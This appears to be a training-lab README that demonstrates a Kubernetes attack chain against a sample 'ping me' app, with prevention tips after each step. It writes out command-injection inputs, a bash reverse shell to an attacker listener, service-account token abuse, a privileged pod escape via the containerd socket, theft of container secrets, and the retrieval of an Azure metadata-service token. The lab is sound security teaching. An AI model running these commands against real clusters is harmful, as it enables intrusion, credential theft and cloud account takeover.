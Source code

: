 # Hijack Kubernetes Hands-on

## Play with the sample app

The sample application "ping me" pings a target specified via the input field. Try the following inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you can see in the answer, it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we can try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>

## Hijack the container

We now inject into the container via a reverse shell. Try to execute the following snippets:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This will allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>

## Get access to the Kubernetes API

Let's see if we can access the API server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API server.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and have some access. Now let's check if we have access to other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack the Kubernetes Node

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Run the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod -- /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to create a privileged pod and "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Access secrets from another container

We will now try to retrieve secrets from a container that we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

We could now use the database connection secret to access the database.

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd CLI to access details of a container running on this node.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')
```

And then request container runtime details such as environment variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

We could now use the database connection secret to access the database.

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Limit egress access to other cloud resources
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack Cloud resources

We can also use the underlying cloud identity and try to escape even further. Run the following snippet to get a valid cloud provider token (in our case the Client ID of the underlying Managed Identity):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First, we need to mount the local node's file system to access the underlying identity ID:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We can now retrieve the cloud identity used and request a valid token via the cloud metadata service (in our case Azure Instance Metadata Service):

```bash
IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
